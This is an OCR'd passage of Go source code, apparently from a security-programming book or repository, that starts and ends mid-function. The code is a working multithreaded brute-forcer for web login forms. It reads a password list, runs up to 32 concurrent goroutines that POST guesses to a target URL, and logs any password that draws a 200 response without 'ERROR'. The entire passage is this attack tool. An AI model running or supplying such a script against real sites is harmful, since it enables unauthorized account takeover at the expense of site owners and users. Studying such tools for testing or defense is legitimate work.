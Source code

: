 ```go
      "POST", 
      url, 
      bytes.NewBufferString(postData), 
   ) 
   client := &http.Client{} 
   response, err := client.Do(request) 
   if err != nil { 
      log.Println("Error making request. ", err) 
   } 
   defer response.Body.Close() 

   body := make([]byte, 5000) // ~5k buffer for page contents 
   response.Body.Read(body) 
   if bytes.Contains(body, []byte("ERROR")) { 
      log.Println("Error found on website.") 
   } 
   log.Printf("%s", body) 

   if bytes.Contains(body,[]byte("ERROR")) || response.StatusCode != 200 { 
      // Error on page or in response code 
   } else { 
      log.Println("Possible success with password: ", password) 
      // os.Exit(0) // Exit on success? 
   } 

   doneChannel <- true 
} 

func main() { 
   pwList, postUrl, username, userField, passField := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwList) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 32 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testLoginForm( 
         postUrl, 
         userField, 
         passField, 
         username, 
         password, 
         doneChannel, 
      ) 

      // If max threads reached, wait for one to finish before  
      //continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
```